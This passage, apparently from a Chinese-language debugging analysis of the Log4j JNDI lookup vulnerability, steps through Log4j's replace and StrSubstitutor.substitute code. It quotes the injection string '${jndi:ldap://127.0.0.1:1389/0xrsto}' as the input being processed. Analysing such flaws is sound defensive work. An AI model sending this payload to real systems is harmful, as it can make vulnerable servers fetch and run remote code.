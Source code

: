 ```bash
public String replace(final LogEvent event, final String source) {
    if (source == null) {
        return null;
    }
    // 创建一个 StringBuilder 对象 buf，并将 source 作为初始内容
    final StringBuilder buf = new StringBuilder(source);
    // 调用 substitute 方法进行替换操作，如果没有进行替换，则返回原始的 source 字符串
    if (!substitute(event, buf, 0, source.length())) {
        return source;
    }
    return buf.toString();
}
```

[![](assets/1700701330-39495e2ddc74a63a036f70920853ce5f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231120132043-8dc2d04e-8764-1.png)  
跳过中间的步骤来到 StrSubstitutor 类的 substitute 方法，这个方法用于多级插值的递归处理程序。这是主要的插值方法，用于解析传入文本中包含的所有变量引用的值。  
这里有一个大的 while 循环，pos 从 0 开始，从左到右遍历 buf，chars 的值为“error info:${jndi:ldap://127.0.0.1:1389/0xrsto}”

```bash
while (pos < bufEnd) {
    // 前缀匹配
    final int startMatchLen = prefixMatcher.isMatch(chars, pos, offset, bufEnd);
    if (startMatchLen == 0) {
        pos++;
    } else // found variable start marker
    if (pos > offset && chars[pos - 1] == escape) {
        // escaped
        buf.deleteCharAt(pos - 1);
        chars = getChars(buf);
        lengthChange--;
        altered = true;
        bufEnd--;
    } else {
        // 目标在这
        ....
    }
    ...
}
```
